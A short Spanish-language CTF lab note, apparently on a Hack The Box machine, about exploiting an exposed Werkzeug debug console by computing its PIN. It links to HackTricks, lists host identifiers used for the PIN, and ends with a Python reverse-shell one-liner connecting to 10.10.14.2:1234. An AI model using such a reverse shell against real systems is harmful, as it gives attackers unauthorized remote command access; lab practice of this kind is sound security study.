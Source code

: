 
Esta misma vulnerabilidad esta en Agile de HTB.

![[Pasted image 20240724075442.png]]

https://www.daehee.com/blog/werkzeug-console-pin-exploit

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

![[Pasted image 20240724081617.png]]

![[Pasted image 20240724081739.png]]

00:50:56:b0:79:c4
258f132cd7e647caaf5510e3aca997c1

User: aas
![[Pasted image 20240724083249.png]]
![[Pasted image 20240724083505.png]]

![[Pasted image 20240724084051.png]]

![[Pasted image 20240724084141.png]]

![[Pasted image 20240724084156.png]]

![[Pasted image 20240724084326.png]]


```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![[Pasted image 20240724091421.png]]



